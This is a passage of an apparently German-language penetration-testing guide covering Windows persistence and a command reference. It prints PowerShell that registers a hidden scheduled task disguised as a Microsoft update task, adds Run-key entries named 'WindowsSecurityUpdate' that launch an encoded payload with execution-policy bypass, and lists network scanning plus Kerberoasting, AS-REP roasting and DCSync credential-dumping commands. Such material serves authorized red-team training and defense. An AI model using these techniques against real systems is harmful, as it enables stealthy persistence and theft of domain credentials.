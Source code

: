 #### Scheduled Task Creation
```powershell
# Versteckter Scheduled Task
PS> $trigger = New-ScheduledTaskTrigger -Daily -At 9am
PS> $action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-WindowStyle Hidden -exec bypass -file C:\Windows\Temp\update.ps1"
PS> Register-ScheduledTask -TaskName "Microsoft\Windows\UpdateOrchestrator\UpdateCheck" -Trigger $trigger -Action $action -RunLevel Highest
```

### 7.3 Registry-basierte Persistence

#### Autorun-Registry-Keys
```powershell
# Run-Key für aktuellen Benutzer
PS> Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "WindowsSecurityUpdate" -Value "powershell.exe -WindowStyle Hidden -exec bypass -enc <base64_payload>"

# Run-Key für alle Benutzer (Administratorrechte erforderlich)
PS> Set-ItemProperty -Path "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -Name "WindowsSecurityUpdate" -Value "powershell.exe -WindowStyle Hidden -exec bypass -enc <base64_payload>"
```

---

## Tool-Referenz & Troubleshooting

### Wichtige Befehls-Übersicht

#### Netzwerk-Reconnaissance
```bash
# Host Discovery
nmap -sn 192.168.20.0/24
naabu -host 192.168.20.0/24 -silent

# Port Scanning
nmap -sS -sV -sC 192.168.20.0/24
naabu -list targets.txt -top-ports 1000

# Service Enumeration
nmap --script smb-* 192.168.20.0/24
nmap --script ldap-* 192.168.20.10-12
```

#### Active Directory
```bash
# Kerberoasting
GetUserSPNs.py domain/user:pass -dc-ip DC_IP -outputfile hashes.txt

# AS-REP Roasting
GetNPUsers.py domain/ -dc-ip DC_IP -usersfile users.txt -outputfile asrep.txt

# DCSync
secretsdump.py domain/user:pass@DC_IP
```

